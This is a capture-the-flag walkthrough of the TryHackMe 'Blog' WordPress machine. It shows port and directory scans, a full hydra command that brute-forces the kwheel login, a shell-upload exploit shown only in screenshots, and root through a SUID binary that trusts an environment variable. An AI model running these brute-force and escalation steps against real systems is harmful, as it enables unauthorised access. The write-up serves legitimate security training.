 # Blog  
> Billy Joel made a Wordpress blog!  
> Make sure to add ```<your instance IP>  blog.thm``` to your /etc/hosts file  
### Iniital enumeration  

PORT SCAN
```
PORT    STATE SERVICE      REASON  
22/tcp  open  ssh          syn-ack ttl 63  
80/tcp  open  http         syn-ack ttl 63  
139/tcp open  netbios-ssn  syn-ack ttl 63  
445/tcp open  microsoft-ds syn-ack ttl 63  

```
Since this is a wordpress box, we'll use a tool like uniscan to automate directory and file discovery:  

```
===================================================================================================
|
| Directory check:
| [+] CODE: 200 URL: http://blog.thm/admin/
| [+] CODE: 200 URL: http://blog.thm/embed/
| [+] CODE: 200 URL: http://blog.thm/feed/
| [+] CODE: 200 URL: http://blog.thm/login/
| [+] CODE: 200 URL: http://blog.thm/note/
| [+] CODE: 200 URL: http://blog.thm/rss/
| [+] CODE: 200 URL: http://blog.thm/welcome/
| [+] CODE: 200 URL: http://blog.thm/wp-admin/
===================================================================================================
|                                                                                                   
| File check:
| [+] CODE: 200 URL: http://blog.thm/admin/index.php
| [+] CODE: 200 URL: http://blog.thm/favicon.ico
| [+] CODE: 200 URL: http://blog.thm/index.php
| [+] CODE: 200 URL: http://blog.thm/license.txt
| [+] CODE: 200 URL: http://blog.thm/readme.html
| [+] CODE: 200 URL: http://blog.thm/robots.txt
| [+] CODE: 200 URL: http://blog.thm/search/htx/SQLQHit.asp
| [+] CODE: 200 URL: http://blog.thm/search/htx/sqlqhit.asp
| [+] CODE: 200 URL: http://blog.thm/search/SQLQHit.asp
| [+] CODE: 200 URL: http://blog.thm/search/sqlqhit.asp
===================================================================================================
```
Looking at the blog, we see there's an author called Karen Wheeler.
![image](https://user-images.githubusercontent.com/65077960/124903055-793ffa80-dfdb-11eb-9fed-3f1ea59192a4.png)

Looking at the URL of her author page, we can see the username kwheel, we'll take a note of that as we may be able ot use that in futurue.
Following the syntax of her username, we can infer that Billy Joel's username is probably bjoel, let's try it.
![image](https://user-images.githubusercontent.com/65077960/124903691-1f8c0000-dfdc-11eb-9eaa-a8b369d632df.png)

So we have two usernames that we can potentially use. Let's try bruteforce kwheels' password.
## User & root own 
```
hydra -l kwheel -P rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```
We have to specify the criteria of a failed attempt since Wordpress doesn't give us a HTTP code such as 403, it always returns 200.
![image](https://user-images.githubusercontent.com/65077960/124904699-2ebf7d80-dfdd-11eb-9533-6e1a755339d9.png)
  
After logging in, we can see there's not a great deal here. Let's take a step back and look at the wordpress version (5.0.0).
We can google the version and see associated exploits.
![image](https://user-images.githubusercontent.com/65077960/124905832-5531e880-dfde-11eb-8b30-d18f78c06c81.png)
Looking at exploitDB, we can see there's a shell upload vuln that we can use (now that we have credentials). Let's try it.
![image](https://user-images.githubusercontent.com/65077960/124906774-57e10d80-dfdf-11eb-8623-ee049ded9864.png)

Immediately we see a wp-config file, that we can use to grab a password out of. We don't need this but it's good to take note of.
Since we know the user flag isn't going to be in a home directory, let's try escalate our priveleges and then look around:
```
find / -perm -u=s -type f 2>/dev/null  
```
We see a strange binary called "checker", we'll investigate it:  
![image](https://user-images.githubusercontent.com/65077960/124907519-2caaee00-dfe0-11eb-84a7-c4d1f512b572.png)  

Using a command like ltrace, we can watch what it does.
![image](https://user-images.githubusercontent.com/65077960/124907630-4ea47080-dfe0-11eb-872f-f3c93cd09b49.png)  
We can see it's looking for an environment variable called admin, let's try setting it and rerun it.  
![image](https://user-images.githubusercontent.com/65077960/124907735-6a0f7b80-dfe0-11eb-8494-b6f3c6a85b5f.png)   

This allows us to escelate our privelleges to root and navigate the machine freely.


Root's flag is in /root/ (as usual)
User's flag, we still have to search for. We can do this manually or we can use a command like "find" to make things easier.
```
find / 2>/dev/null | grep user.txt
```
We're given the file path of the user flag, which we can submit to TryHackMe.
